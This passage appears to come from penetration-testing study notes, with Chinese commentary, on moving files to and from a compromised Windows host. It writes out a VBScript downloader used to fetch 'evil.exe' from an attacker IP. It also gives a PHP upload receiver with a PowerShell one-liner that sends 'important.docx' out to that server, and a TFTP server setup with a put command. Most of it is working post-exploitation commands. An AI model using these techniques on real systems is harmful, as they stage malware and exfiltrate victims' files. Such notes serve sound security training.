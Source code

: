 ```vb
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >>
wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

C:\Users\Offsec> cscript wget.vbs http://10.11.0.4/evil.exe evil.exe
```

## Upload 
script upload, http 可用；
win7及winserver 2008 以后可用，xp、2003 不支持powershell

**powershell upload**
```
//kali upload php 及 目录权限处理
sudo mkdir /var/www/uploads
sudo ps -ef | grep apache
sudo chown www-data: /var/www/uploads
<?php
$uploaddir = '/var/www/uploads/';
$uploadfile = $uploaddir . $_FILES['file']['name'];
move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>

// win upload
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')
```

**TFTP**
upd协议，win xp、2003 可考虑使用

```
//kali tftp server 安装
sudo apt update && sudo apt install atftp
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp

// win connect
tftp -i [ip] put test.txt
```
